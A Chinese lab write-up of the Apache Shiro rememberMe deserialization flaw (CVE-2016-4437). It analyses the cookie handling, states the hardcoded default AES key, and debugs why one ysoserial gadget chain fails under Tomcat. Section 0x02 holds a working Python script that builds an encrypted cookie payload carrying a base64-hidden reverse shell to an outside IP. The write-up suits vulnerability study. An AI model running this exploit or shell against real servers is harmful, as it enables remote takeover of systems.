

# 0x00 漏洞环境

docker镜像：vulfocus/shiro-cve_2016_4437


# 0x01 漏洞分析

从官方对该漏洞的描述可知，`shiro`使用`CookieRememberMeManager`类来处理`cookie`中的`rememberMe`字段：它会对用户的登录凭证信息进行序列化、AES加密和Base64编码, 以便后续对其进行检索。所以当它接收到一个来自未经授权的用户的请求时，会通过以下操作来寻找它们记住的身份凭证信息：

- 1、检索请求中`cookie`里的`rememberMe`的值；
- 2、对`rememberMe`的值进行Base64解码；
- 3、对解码后的值进行AES解密；
- 4、对解密后的数据进行Java反序列化操作。

对此，我们使用上述提及的漏洞环境，实际抓包来演示下：

在登录框处，使用`root/root`进行登录，并勾选复选框`Remember Me`, 完成登录。在`BurpSuite`中查看，可以看到登录验证成功后，服务端会返回带有`rememberMe`字段的`cookie`，且它的值是一长串的base64编码后的字符。


登录后，再次访问首页，请求中便会带着这个含有`rememberMe`的cookie。


另外从官方的漏洞描述中可知，默认情况下，AES的加密密钥是硬编码的。这意味着只要查看源代码就能知道默认的加密密钥。因此攻击者可以构造一个恶意对象，序列化后作为`rememberMe`的值进行发送，进行RCE。

对此，我们来实际调试下代码。

找到`CookieRememberMeManager`这个类，发现对`rememberMe`的加解密操作，都在其父类`AbstractRememberMeManager`中的`encrypt()`/`decrypt()`中进行，且在`AbstractRememberMeManager`类中发现了硬编码的AES密钥,其base64编码形式为：`kPH+bIxk5D2deZiIxcaaaA==`。


因此在`AbstractRememberMeManager#decrypt()`方法中下断点，重放上面图3中的请求包，即带着服务端返回的`rememberMe`的`cookie`再次请求向服务端发起请求。断点成功断下：


查看函数回溯，发现是先在`CookieRememberMeManager#getRememberedSerializedIdentity()`获取cookie中的`rememberMe`字段的值，并进行base64解码。然后再传入到`AbstractRememberMeManager#convertBytesToPrincipals()`方法，该方法会调用`AbstractRememberMeManager#decrypt()`执行AES解密操作。



解密完成后，调用`AbstractRememberMeManager#deserialize()`执行反序列化操作。
再跟进`AbstractRememberMeManager#deserialize()`，发现会调用`DefaultSerializer#deserialize()`，继续跟进发现，看到了熟悉的`readObject()`方法。


# 0x02 漏洞利用

根据上面的分析，下面可以写漏洞利用了。
因为本次使用的 `vulfocus/shiro-cve_2016_4437`这个漏洞环境，依赖有`commons-collections4:4.0`，所以这里使用`ysoserial`的`CC2`这个利用链的`payload`来执行反弹shell。代码如下：

```python
#!/usr/bin/env python3

from Crypto.Cipher import AES
from Crypto import Random
import base64
import subprocess
import uuid

popen = subprocess.Popen(['java', '-jar', 'files/ysoserial-0.0.6-SNAPSHOT-all.jar', 'CommonsCollections2', "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjAuMTAuMy80NDMgMD4mMQ==}|{base64,-d}|{bash,-i}"], stdout=subprocess.PIPE)
BS = AES.block_size
pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
key = "kPH+bIxk5D2deZiIxcaaaA=="
mode = AES.MODE_CBC
iv = uuid.uuid4().bytes
encryptor = AES.new(base64.b64decode(key), mode, iv)
file_body = pad(popen.stdout.read())
base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
print(base64_ciphertext.decode())
```

该代码运行便会生成可用于反序列化攻击的反弹shell payload。


## 实际漏洞利用的踩坑记录

- 坑1：`CommonsCollection4`链进行漏洞利用不成功。

由于该漏洞环境存在`commons-collections4:4.0`依赖，因此我还使用`CommonsCollection4`的payload去测试，发现这条利用链无法成功利用。关于这个坑点，网上有个说法是由于`shiro`使用的是自己的`ClassResolvingObjectInputStream#resolveClass()`方法，该方法调用了自己的加载类方法`ClassUtils#forName()`:
```
ClassResolvingObjectInputStream#readObject()
  ...
    ClassResolvingObjectInputStream#resolveClass()
      ClassUtils#forName()
```

看了`shiro`的源码发现确实如此。

另外，网上很多文章对某些`CC`利用链失败的原因，归咎于shiro的`resolveClass()`调用的是`ClassLoader.loadClass()`而非`Class.forName()`导致加载数组类型的对象失败，比如下图中的观点。


那到底是不是这样的呢？

依旧使用`CC4`利用链的payload，跟进`ClassUtils#forName()`的代码继续调试。调试发现失败的原因在于`Transformer[]`数组类型的类对象无法被加载，因为`CC4`利用链里确实用到了`Transformer[]`数组。仔细调试看看到底是为什么。

当要加载`Transformer[]`数组类对象时，传入`ClassUtils#forName()`的参数为：`[Lorg.apache.commons.collections4.Transformer`，


然后调用 `WebappClassLoader#loadClass()`：


`WebappClassLoader`是Tomcat中的类，它其实是调用其父类的`WebappClassLoaderBase#loadClass()`方法，继续跟进发现，在该方法中，会依次调用以下方法去寻找，找到后就将其加载为指定的类对象：
```
① clazz = findLoadedClass0(name);
② clazz = findLoadedClass(name);
③ clazz = javaseLoader.loadClass(name);
④ clazz = Class.forName(name, false, parent);
⑤ clazz = findClass(name);
⑥ clazz = Class.forName(name, false, parent);
```

中间的各种逻辑判断这里我就略过不说了，直接说调试结果，断点调试后，发现前面五步要不就是找不到类，要不就是不满足逻辑判断条件就跳过了，最终会到达第⑥步：


可以看到，在Tomcat环境下，shiro对`CC4`payload的反序列化，最终还是调用了`Class#forName()`方法对指定类进行查找并加载的，而该方法是可以加载数组类对象的，调试发现包名是`java.lang.xxxx`的数组都能正常加载。但为什么`[Lorg.apache.commons.collections4.Transformer`无法被加载呢？

还是如上图所示，可以看到`Class#forName()`的第三个参数`parent`是一个`ClassLoader`对象，此时`parent`指向的是一个`URLClassLoader`对象，查看此时它的成员`ucp`，而`ucp`有个成员`path`，`path`是一个`ArrayList`对象，它存储着类的搜索路径。这些路径表示这个`URLClassLoader`搜索类时会去这些路径下去搜索。上图中可以看到，这些路径全是Tomcat下的`lib`目录下，而该目录下并不存在`commons-collections4:4.0`，所以找不到`Lorg.apache.commons.collections4.Transformer`。

这就解释了为什么`[Lorg.apache.commons.collections4.Transformer`数组类对象无法被加载，从而导致`CommonsCollections4`这条利用链无法使用。

单步步过，`Class#forName()`无法找到`[Lorg.apache.commons.collections4.Transformer`，将抛出异常`ClassNotFoundException`。


再来看一下`ysoserial`项目环境下`CommonsCollections4`利用链的反序列化过程的情况，如下图，可以看到此时`Class#forName()`的`ClassLoader`是`Launcher$AppClassLoader`，且类的搜索路径中是包含了`ysoserial`这个项目的依赖包的，比如这里就包含了`commons-collections4:4.0`。


所以在Java环境和在Tomcat环境下还是有所区别的。猜测是`Java`环境和`Tomcat`环境下的`classpath`不一样，导致了`CC4`利用链失败。这里用了`猜测`，是因为以我目前的知识储备，并不能说出一个比较严谨的说法，即便现在通过调试知道了是这样，但是这里面涉及到的理论依据我是没掌握的。

综上所述，`CC4`利用链在这个漏洞环境中无法利用成功的原因是Tomcat的`classpath`并不存在`commons-collections4:4.0`依赖包。并不是像网上很多文章说的那样是因为`ClassLoader#loadClass()`无法加载数组类。

PS：如果环境中存在`commons-collections:3.2.1`依赖包，而使用`ysoserial`的`CC1`、`CC3`、`CC5-7`这几个利用链失败的话，大概率也是上面提到的原因，因为这些链里也使用了`Transformer[]`数组。

## 问题1

为什么网上很多`SHIRO-550`的漏洞利用脚本、工具，都集成了AES key的爆破功能，而且为什么会有差不多100个key在一些工具里?
>因为根据这个漏洞的分析我们知道，这个AES key是硬编码在代码里的。而且官方的修复代码里，是把AES key硬编码改为了生成随机key的方式。那为什么会有这么多key呢？关于这个问题，我搜索到了一篇文章([参考2](https://mp.weixin.qq.com/s/NRx-rDBEFEbZYrfnRw2iDw))，我觉得应该还是比较靠谱的解释。


## 问题2

如前面提到的坑点，既然`CC`系列利用链有可能会利用失败。那有没有其他利用链是不存在这样的问题的呢？

答案是使用`JRMP`。该利用链是不依赖第三方库的，只依赖JDK本身。
`ysoserial`项目已经提供了现成的`JRMP`利用payload。


## 小结

网上文章水平参差不齐，切勿轻信。一定要亲自调试验证，不然被坑死。


# Reference
[1] https://issues.apache.org/jira/browse/SHIRO-550
[2] https://mp.weixin.qq.com/s/NRx-rDBEFEbZYrfnRw2iDw
[3] http://blog.orange.tw/2018/03/pwn-ctf-platform-with-java-jrmp-gadget.html
[4] http://www.rai4over.cn/2020/Shiro-1-2-4-RememberMe%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90-CVE-2016-4437/#%E8%B7%B3%E5%9D%91